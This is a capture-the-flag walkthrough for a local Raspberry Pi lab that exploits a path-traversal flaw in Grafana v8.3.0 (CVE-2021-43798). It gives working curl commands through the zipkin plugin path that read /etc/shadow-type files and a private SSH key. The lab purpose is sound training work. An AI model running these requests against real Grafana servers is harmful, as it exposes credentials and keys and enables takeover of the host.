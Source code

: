 ## CTF-pi - Outdated software - Grafana 2 - Difficulty: ★★★☆☆

### Scenario 

Grafana verison has changed, how about this time, is it secure?

There's no login provided for this challenge, but do we even need it?

### Prerequisites

Your Raspberry Pi has remote connection set up via Raspberry Pi Connect or VNC.

Have cloned this `CTF-pi` repository and are inside the `ctfpi0_0` directory.

`docker compose` works.


### Objective

Run within this directory on Raspi: `docker compose up --build -d` (Using remote shell)

`hostname -I` to find out which IP the service is running on and visit it in your browser. Your main computer or even a phone can access this, as long as they are within the same network as Raspberry Pi.

Which port is Grafana running on by default? Find out.

Find the Grafana version.

Find an existing vulnerability and exploit it.

There's plenty of sensitive files in Linux, find which one contains the flag.

Once you have found the flag check if they match: `answers/flag.txt`.


### Steps to complete

Google reveals that default Grafana port is 3000, and `hostname -I` reveals the IP, in my case the address to the service is: `10.10.10.67:3000`.

Enter this into your URL bar of your browser and you land on Grafana login page. 

We don't know the username or password, how do we find the version? I found them from page source! "subTitle":"Grafana v8.3.0

Google for Grafana exploits for the verion it is currently running on.

https://vulncheck.com/blog/grafana-cve-2021-43798

Made script that does everything automatically: https://www.exploit-db.com/exploits/50581

I ran this:
```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../<path>/<filename>' --path-as-is --output text.txt

```
There's files like /etc/passwd; /etc/shadow ; grafana configuration files ; grafana.db ; /home/grafana/.ssh/id_rsa, let's try the last one.

We can read the file contents from the saved `text.txt` file: `cat text.txt`

```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../home/grafana/.ssh/id_rsa' --path-as-is --output text.txt

```

What we just did is arbitrary path traversal, the user can input however many ../ they want so they get to the root directory, there's plenty of sensitive files like databases or device users with their password hashes, also private ssh keys, if attacker can reach these, then there's a high chance they can take control of everything on the Rasperry Pi in this case.

### Cleaning up

`docker compose down`
